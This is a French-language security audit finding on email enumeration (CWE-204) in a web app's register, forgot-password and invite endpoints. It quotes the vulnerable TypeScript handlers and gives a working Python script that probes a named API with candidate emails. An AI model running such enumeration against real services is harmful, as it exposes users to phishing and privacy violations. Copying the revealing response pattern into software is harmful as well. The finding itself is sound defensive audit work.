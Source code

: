 **Sévérité:** MAJEURE
**CWE:** CWE-204 (Observable Response Discrepancy)
**Localisation:** `backend/src/routes/auth.ts:31-34`, `backend/src/routes/compare.ts:95`

**Description:**
Plusieurs endpoints révèlent si un email existe dans la base de données:
1. Register: retourne "Email already registered"
2. Forgot-password: comportement différent selon l'existence de l'email
3. Invite friend: retourne "User not found"

```typescript
// Énumération via register:
const existingUser = await query('SELECT id FROM users WHERE email = ?', [email]);
if (existingUser.rows.length > 0) {
  return res.status(409).json({ error: 'Email already registered' }); // ⚠️ Révèle l'existence
}

// Énumération via invite:
const friendResult = await query('SELECT id FROM users WHERE email = ?', [friendEmail]);
if (friendResult.rows.length === 0) {
  return res.status(404).json({ error: 'User not found' }); // ⚠️ Révèle l'absence
}
```

**Impact:**
- Énumération complète de tous les emails enregistrés
- Cible pour phishing et spam
- Violation de la confidentialité
- Préparation d'attaques ciblées

**Exploitation:**
```python
# Script d'énumération via register:
import requests

potential_emails = [
    "john.doe@company.com",
    "admin@company.com",
    "ceo@company.com",
    # ... liste d'emails
]

registered_emails = []

for email in potential_emails:
    response = requests.post(
        'https://api.progress2win.com/api/auth/register',
        json={
            'email': email,
            'password': 'dummy123',
            'firstName': 'Test',
            'lastName': 'Test'
        }
    )

    if response.status_code == 409:  # "Email already registered"
        registered_emails.append(email)
        print(f"✓ {email} is registered")
    else:
        print(f"✗ {email} not registered")

print(f"\nFound {len(registered_emails)} registered users")
```
